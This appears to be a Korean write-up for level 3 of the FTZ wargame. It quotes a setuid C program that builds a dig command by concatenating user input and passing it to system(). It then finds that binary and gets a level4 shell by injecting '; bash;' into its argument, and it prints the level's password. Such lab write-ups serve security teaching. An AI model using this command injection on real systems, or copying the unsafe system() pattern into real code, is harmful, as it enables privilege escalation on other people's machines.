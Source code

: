 # Level3

This level's goal

- system('CMD') vulnerability

***

`[level3@ftz level3]$ cat hint`

다음 코드는 **autodig**의 소스이다.
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char **argv){

char cmd[100];

if( argc!=2 ){
    printf( "Auto Digger Version 0.9\n" );
    printf( "Usage : %s host\n", argv[0] );
    exit(0);
}

strcpy( cmd, "dig @" );
strcat( cmd, argv[1] );
strcat( cmd, " version.bind chaos txt");

system( cmd );
}
```

이를 이용하여 level4의 권한을 얻어라.

more hints.

1) 동시에 여러 명령어를 사용하려면?

2) 문자열 형태로 명령어를 전달하려면?

***

`[level3@ftz level3]$ find / -name autodig 2>/dev/null`

/bin/autodig

`[level3@ftz level3]$ find / -user level4 -perm -4000 2>/dev/null`

/bin/autodig

`[level3@ftz level3]$ ls -l /bin/autodig`

-rwsr-x---    1 level4   level3      12194 Aug 19  2014 /bin/autodig

`[level3@ftz level3]$ /bin/autodig "8.8.8.8 www.naver.com; bash;"`

`[level4@ftz level3]$ my-pass`

Level4 Password is "suck my brain".

